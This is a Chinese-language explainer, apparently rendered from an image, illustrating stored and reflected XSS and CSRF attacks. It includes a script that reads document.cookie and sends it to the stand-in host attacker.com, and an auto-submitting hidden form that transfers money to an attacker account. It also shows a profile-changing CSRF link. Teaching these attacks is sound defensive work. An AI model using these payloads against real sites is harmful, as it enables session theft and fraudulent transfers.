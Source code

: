 以下为你分别列举跨站脚本攻击（XSS）和跨站请求伪造（CSRF）的例子：

### 跨站脚本攻击（XSS）

1. **存储型XSS**：
   - 以一个论坛为例，攻击者在论坛的帖子内容中注入恶意脚本代码，如 `<script>alert('已被攻击')</script>`。当其他用户浏览这个帖子时，浏览器会执行这段脚本，可能导致用户的敏感信息（如登录后的 cookie 等）被发送到攻击者指定的服务器上。攻击者可以使用 JavaScript 代码，如 `document.cookie` 获取用户的 cookie，并通过 `XMLHttpRequest` 或 `fetch` 发送到自己的服务器：

```javascript
<script>
  var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://attacker.com/receive', true);
  xhr.setRequestHeader('Content-type', 'application/x-http-request'); xhr.send(document.cookie);
</script>
```

2. **反射型XSS**：
   - 比如一个搜索功能的页面，URL 中包含搜索参数，如 `https://example.com/search?q=恶意脚本`。攻击者构造一个恶意链接，将恶意脚本作为搜索参数，如 `https://example.com/search?q=<script>alert('已被攻击')</script>`。当用户点击这个链接时，服务器将恶意脚本反射回浏览器，在用户浏览器中执行。

### 跨站请求伪造（CSRF）

1. **银行转账场景**：
   - 用户登录银行网站进行操作后，浏览器会保存用户的登录凭证（如 cookie）。攻击者构造一个恶意网页，其中包含一个隐藏的 `img` 标签或 `form` 标签，当用户访问这个恶意网页时，浏览器会自动发送一个请求到银行服务器。例如，攻击者可以创建一个 `form` 表单：

```html
<!doctype html>
<html>
  <body>
    <form action="https://bank.com/transfer" method="post">
      <input type="hidden" name="to" value="attacker_account" />
      <input type="hidden" name="amount" value="1000" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

    - 由于用户已经登录银行网站，浏览器会带上用户的 cookie 发送这个请求，银行服务器无法区分这个请求是合法用户的操作还是攻击者的伪造请求，从而执行转账操作，将用户账户的钱转到攻击者账户。

2. **修改用户信息场景**：
   - 用户登录社交网站后，攻击者构造一个恶意链接，如 `<a href="https://social.com/updateProfile?name=attacker&email=attacker@example.com">点击这里有惊喜</a>`。当用户点击这个链接时，浏览器会在用户已登录的状态下向社交网站服务器发送请求，修改用户的信息。而服务器会认为这是用户的合法操作，因为请求中包含了用户的登录凭证（如 cookie）。
